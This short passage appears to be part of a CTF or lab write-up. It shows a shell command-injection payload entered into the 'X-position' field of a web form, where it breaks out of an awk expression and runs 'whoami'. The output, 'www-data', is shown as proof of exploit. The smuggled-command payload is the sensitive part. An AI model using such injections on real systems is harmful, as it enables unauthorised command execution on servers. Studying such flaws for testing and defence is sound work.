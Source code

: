 We are given three input boxes, 
Entering the following string into the "X-position" field:
```
))) }' || whoami #
```
yields the following result:
```
Executed: awk 'BEGIN {print sqrt(((-))) }' || whoami #)^2) + ((-)^2))}'
Result: www-data 
```
which shows PoE (Proof of Exploit).
